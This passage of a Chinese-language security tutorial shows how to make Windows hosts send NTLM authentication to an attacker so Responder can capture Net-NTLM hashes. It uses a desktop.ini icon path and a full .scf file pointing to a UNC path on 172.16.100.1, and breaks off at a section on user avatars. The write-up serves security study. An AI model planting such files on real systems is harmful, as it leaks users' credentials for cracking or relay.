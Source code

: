# 发起NTLM  请求

## 0x00 前言

这篇文章是ntlm篇的第二篇，怎么发起ntlm请求。在 阅读这篇文章之前，有两点说明

1. 这篇文章的主要内容是使服务器向攻击者发起ntlm 请求，但是没有进一步利用，因此本篇文件的表述都是获得net-ntlm hash。使用Responder来捕获。Responder的用法可自行搜索。这里不展开。
2. 有些地方较为敏感，因此使用的net-ntlm hash的截图并非真实图片。这个地方不重要，主要证明能发起请求就行，出现net-ntlm hash 截图的地方都是本地测试，真实收到请求的。

## 0x01 图标

### 1.desktop.ini

文件夹底下都有个文件desktop.ini来指定文件夹图标之类的。默认不可见。去掉隐藏受保护的操作系统文件就可以看到

![image-20191120155020224](https://p2.ssl.qhimg.com/t016e954df14239888c.png)

![image-20191120155135498](https://p2.ssl.qhimg.com/t017613e6801d46b8d2.png)

每个文件夹底下都会有，我们新建一个新的文件夹的话，如果没看到desktop.ini，可以尝试更改图标，就可以看到了。

![image-20191120155912189](https://p0.ssl.qhimg.com/t011f619e477ffa9eaa.png)

将图标路径改成UNC路径，指向我们的服务器

![image-20191120160121209](https://p2.ssl.qhimg.com/t010a77d8e5b5f30c57.png)

![image-20191120160255783](https://p3.ssl.qhimg.com/t015d257a6f54d235c2.png)

当用户访问该文件夹的时候会去访问UNC路径,我们就能获取用户的net-ntlm hash。

![image-20191120160851586](https://p0.ssl.qhimg.com/t0177cb454b7fb7506e.png)

### 2. scf 文件

只要一个文件底下含有scf后缀的文件,由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标。而IconFile是支持UNC路径的。以下是scf后缀的文件的格式

```text
[Shell]
Command=2
IconFile=\\172.16.100.1\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

新建test.scf，写入内容，放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的net-ntlm hash。

![image-20191120162237325](https://p2.ssl.qhimg.com/t01b937f566307adb94.png)

### 3.用户头像
